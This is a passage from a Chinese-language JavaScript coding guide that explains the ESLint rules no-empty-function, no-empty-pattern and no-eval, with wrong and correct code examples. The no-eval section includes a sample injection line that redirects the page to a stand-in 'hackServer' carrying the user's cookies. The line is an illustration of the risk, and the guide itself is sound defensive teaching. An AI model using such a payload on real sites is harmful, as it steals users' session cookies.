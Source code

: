 **[⬆ 回到目录](#目录)**

<a id='no-empty-function'></a>
## no-empty-function

- 规则含义

  禁止定义没有执行语句的空函数  
  允许箭头函数是空函数

- 规则原因

  空函数增加读代码的成本：需要猜测写的人是有什么特殊含义还是写错了

- 错误例子

      function foo() {}

- 正确例子

      function foo() {  
       // 默认函数防止报错  
      }  
      const foo = () => {}

[eslint](https://eslint.org/docs/rules/no-empty-function.md)

**[⬆ 回到目录](#目录)**

<a id='no-empty-pattern'></a>
## no-empty-pattern

- 规则含义

  不允许出现空解构

- 错误例子

      const {a: {}} = foo;

[eslint](https://eslint.org/docs/rules/no-empty-pattern.md)

**[⬆ 回到目录](#目录)**

<a id='no-eval'></a>
## no-eval

- 规则含义

  不允许使用eval

- 规则原因

  1. eval的字符串有js注入的风险：比如让用户输入四则运算eval('3 + 4'),但是黑客输入js代码:eval('window.location = /hackServer?cookie=document.cookie')  
  2. 无法debug eval中的代码

[eslint](https://eslint.org/docs/rules/no-eval.md)
